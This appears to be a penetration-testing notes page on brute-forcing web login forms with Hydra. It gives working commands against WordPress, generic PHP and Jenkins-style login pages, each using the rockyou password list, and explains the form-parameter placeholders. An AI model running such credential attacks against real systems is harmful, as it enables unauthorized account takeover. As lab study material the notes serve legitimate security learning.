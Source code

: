 WordPress
```bash
hydra -L wpusers -P /usr/share/wordlists/rockyou.txt colddboxeasy -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

Generic php login
```bash
hydra -L usernames -P passwords $IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!" 
```
In the above command, the usernames and passwords list is provided and the form parameters are passed as well. ^USER^ placeholder will take in the username from the list ^PASS^ placeholder will take in the password from the list. After submit is the code produced by the failing login

Another example how to craft the hydra command. First using burpsuite.

![](<Pasted image 20240122221235.png>)

Using command to brute force:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP -s 8000 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -V
```

Or using html source:
![](<Pasted image 20240123210025.png>)
 
 hydra command would look like this:
 ```bash
 hydra -L usernames -P passwords $IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```